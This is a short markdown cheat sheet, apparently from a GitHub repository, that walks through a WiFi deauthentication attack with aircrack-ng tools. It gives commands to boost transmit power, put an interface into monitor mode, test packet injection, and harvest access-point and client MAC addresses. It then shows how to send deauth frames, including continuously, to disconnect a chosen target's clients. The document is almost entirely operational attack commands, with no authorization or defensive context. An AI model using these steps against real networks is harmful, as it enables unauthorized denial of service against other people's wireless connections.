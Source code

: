 # Deauthentication Attack
### Set router to max power
```
sudo ifconfig wlan1mon down
```
```
sudo iwconfig wlan1mon txpower 30
```
```
sudo ifconfig wlan1mon up
```

---

### Check / kill:
If things are weird
```
sudo airmon-ng check kill
```

---

### wlan1 Monitor mode:
```
sudo airmon-ng start wlan1
```
Interface now is appended `mon` e.g `wlan1mon`

---

### Test for packet injection
Once it's in monitor mode, run a test:
```
sudo aireplay-ng --test wlan1mon
```
Should see `Injection is working!`

---

### Gather MAC addresses
Use this command to see live network traffic, enabling you to see all the devices on the network and their MAC addresses. if you run this live you'll inevitably see the clients disconnect and reconnect when you deauth. Remember to add `--band a` for 5GHz: 
```
sudo airodump-ng wlan1mon --band abg -w dump
```
The top half are going to be the available WIFI networks / Access Points (APs). You have to output to file because the terminal is too small to display all of them. The bottom half are going to be clients/`STATIONS` and the `Probes` should tell you what they're connected to.

---

### Monitor traffic
Once you've found your target, listen to it live with:
```
sudo airodump-ng wlan1mon --bssid XX:XX:XX:XX:XX:XX --band abg
```
OR (try both - router likely broadcasts multiple BSSIDs, once for each GHz or if it multiplate bands(?))
```
sudo airodump-ng wlan1mon --essid "NetworkName" --band abg
```

---

### Deauth
The actual deauth - where `5` is the number of deauths, `0` would be to send them continously.
```
sudo aireplay-ng -0 5 -a ACCESSPOINT-BSSID -c CLIENT-BSSID wlan1mon
```

---


---

## -- NOTES
You have to be on the same channel as the AP you're deauthing, change it with:
```
sudo iwconfig wlan1mon channel 149
```

---
### For list of attacks:
We want `0` here
```
aireplay-ng
```
